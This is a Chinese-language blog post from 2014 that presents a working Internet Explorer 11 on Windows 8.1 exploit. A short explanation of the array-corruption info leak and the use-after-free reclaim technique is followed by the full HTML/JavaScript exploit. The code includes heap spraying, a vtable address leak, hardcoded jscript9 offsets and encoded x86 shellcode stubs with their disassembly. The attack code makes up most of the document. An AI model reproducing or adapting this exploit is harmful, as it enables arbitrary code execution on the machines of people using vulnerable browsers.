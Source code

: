 Title: Windows 8.1 + IE 11 Exploit
Date: 2014-02-28
Tags: Exploit


![Windows8.1_IE11_Exploit][Windows8.1_IE11_Exploit]


我的第一版只包含信息泄漏功能的代码只用了7行javascript。简单说一下这个方法比较有意思的地方吧，因为IntArray类型的数组在存储数据时高位不能为1。否则其会以double形式存储。这就导致我们在使用其存储shell code时需要编码(解决高位为1的问题)。而我比较喜欢用字符串来存储我的shell code，这样就可以将我以前的shell code不需要修改直接拿来使用了。

解决这个问题，我的思路主要是，先释放一个IntArray对象，然后使用一个ObjectArray类型的对象进行占位。这个ObjectArray对象内部保存着存储了shell code字符串的指针。这样就可以再进行一次信息泄漏来实现读取字符串的地址了。而因为IE 11内部存储字符串使用的是Js::LiteralString对象进行存储的。所以直接读取的其实是Js::LiteralString对象的地址而不是存储了shell code的BSTR的地址。解决这个问题我使用了一个技巧，详细可以看代码。简单的说就是，用一个很小的shell code来实现获取存储了shell code的BSTR的地址。再将其写入到IntArray中泄漏出来。很简单，但很有效。

因为我喜欢用最简单的方法来解决问题，所以我的代码极其短小、整洁。

代码具体如下：

```
<html>	<body>		<script>            function exp()            {                var array_1 = new Array();                var size = 0x1000 * 0x100;                for(var i=0; i<size; i+=1)                {                    array_1[i] = new Array(1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1);                }                for(var i=size-2;i>0;i--)                {                    array_1[i][22] = 0x7fffffff;                    array_1[i][29] = 0x7fffffff;                    array_1[i][30] = 0x7fffffff;                    if(array_1[i+1].length == 0x7fffffff)                    {                        var array_vft_address = array_1[i+1][18];                        var jscript9_base_addr = array_vft_address - 0x00004534;                        var shell_code = "\u9090\u9090";                        delete array_1[i + 3];                        CollectGarbage();                                                var new_obj = new Array(shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code,
                        shell_code,shell_code,shell_code,shell_code);                                                array_1[i][0] = jscript9_base_addr + 0x00143BA1;                        array_1[i][1] = 0x0c0c0000;                        array_1[i][4] = 0x0c0c0000;                        array_1[i+1][18] = 0x0c0bffbc;                        0x0c0c003c in (array_1[i + 2]);                        array_1[i][0] = 0x0c0c003c;
                        //get bstr address                        //A1 90010C0C   mov eax,dword ptr ds:[0xC0C0190]                        //83C0 0C       add eax,0xC                        //8B18          mov ebx,dword ptr ds:[eax]                        //8BC3          mov eax,ebx                        //A3 B8000C0C   mov dword ptr ds:[0xC0C00B8],eax                        //C2 0400       retn 0x4
                        array_1[i][1] = 0x0c0190a1;                        array_1[i][2] = 0x0cc0830c;                        array_1[i][3] = 0x4646188b;                        array_1[i][4] = 0x4646c38b;                        array_1[i][5] = 0x0c00b8a3;                        array_1[i][6] = 0x0004c20c;                        0x0c0c003c in (array_1[i + 2]);                        var bstr_addr = array_1[i + 1][0];                        array_1[i][0] = jscript9_base_addr + 0x00143BA1;                        array_1[i][1] = 0x0c0c0000;                        array_1[i][4] = bstr_addr-2;                        array_1[i+1][18] = 0x0c0bffbc;                        (0x0c0c003c) in (array_1[i + 2]);                        alert("bstr protect edit");                        array_1[i][0] = bstr_addr;                        0x0c0c003c in (array_1[i + 2]);                        break;                    }                }            }		</script>	</body></html>
```

感谢：

* @tombkeeper
* @ga1ois
* @bluerust

在此还要感谢这篇文章的作者，《A browser is only as strong as its weakest byte Exodus Intelligence》:http://ifsec.blogspot.jp/2013/11/exploiting-internet-explorer-11-64-bit.html，没有你那么深刻的讲解，我自己也许不知道什么时候才能想的到这么巧妙的方法。所有的掌声都送给你。

[Windows8.1_IE11_Exploit]: /Windows8.1_and_IE11_Exploit/images/Windows_8.1_and_IE11_Exploit.gif